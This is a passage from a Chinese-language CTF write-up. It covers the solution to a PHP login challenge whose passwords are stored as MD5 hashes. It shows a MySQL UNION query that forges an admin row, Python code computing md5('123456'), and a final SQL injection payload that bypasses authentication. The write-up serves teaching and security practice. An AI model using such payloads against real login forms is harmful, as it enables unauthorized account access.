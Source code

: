 ```php
        else{
            die("wrong user!");
        }
    }
}
 
?>
```

**4.3 最后答案**

整个题目其实最难的点就是不知道密码做了MD5的操作，利用UNION查询查不到数据的时候会伪造一条数据的特点就可以绕过

```mysql
mysql> select * from user where id=2 union select 1,'admin',md5(123456);
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | e10adc3949ba59abbe56e057f20f883e |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

python 计算`123456`的md5值

```py
import hashlib

data = '123456'
md5 = hashlib.md5(data.encode('utf-8'))
print(md5.hexdigest())

# 输出
e10adc3949ba59abbe56e057f20f883e
```



最后`payload`：`name=-1' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'--+&pw=123456`
